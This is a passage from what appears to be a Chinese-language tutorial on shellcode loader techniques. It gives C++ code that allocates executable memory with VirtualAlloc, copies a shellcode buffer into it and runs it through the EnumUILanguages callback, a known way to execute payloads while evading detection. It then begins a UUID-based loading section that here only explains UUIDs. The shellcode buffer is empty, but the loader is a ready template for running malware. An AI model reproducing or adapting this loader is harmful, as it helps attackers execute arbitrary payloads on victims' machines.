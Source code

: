 

## EnumUILanguages

```cpp
#include <Windows.h>

unsigned char shellcode[] ="";

void CallBack() {

    void* p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(p, shellcode, sizeof(shellcode));
	
    /*
    EnumUILanguages 函数是在 Windows 操作系统中使用的一个函数，它用于列举安装在系统上的用户界面语言（UI language）
    参数1:指向回调函数的指针,这个回调函数将在每个列举到的用户界面语言上被调用
    参数2:指定列举语言时的选项和标志
    参数3:应用程序定义的一个参数，它将传递给回调函数
    */
    
    EnumUILanguages((UILANGUAGE_ENUMPROC)p, 0, 0);

}

int main() {
    CallBack();
}
```





# 8.基于uuid

## 什么是UUID

UUID（Universally Unique Identifier，通用唯一识别码）是一种为计算机系统中的所有对象分配一个唯一标识符的软件构建块。UUID 是 128 位的数字，通常由 32 个十六进制(16个字节)数字表示，并由连字符分隔成五个部分，形式为 8-4-4-4-12。例如：

```
550e8400-e29b-41d4-a716-446655440000
```

UUID 的目的是在没有中央协调机构的情况下，能够在分布式系统中生成唯一标识符。这意味着，任何人在任何地方都可以创建一个 UUID，而无需担心与其他人创建的 UUID 冲突。UUID 的设计使得它们的全局唯一性非常高，即使在不同的计算机系统和网络中也能保持唯一性。

UUID 通常用于以下场景：

- 数据库中的主键：用 UUID 作为数据库表的主键，确保每个记录都具有唯一的标识符，避免数据冲突。
- 分布式系统中的对象标识符：在分布式系统中，由于系统组件可能位于不同的计算机或网络上，使用 UUID 作为对象的唯一标识符有助于确保唯一性。
- 会话标识符：在网络应用中，使用 UUID 作为会话标识符可以确保每个会话都有唯一的识别码。
- 临时文件名：当需要创建临时文件时，使用 UUID 作为文件名可以确保不会与现有文件冲突。
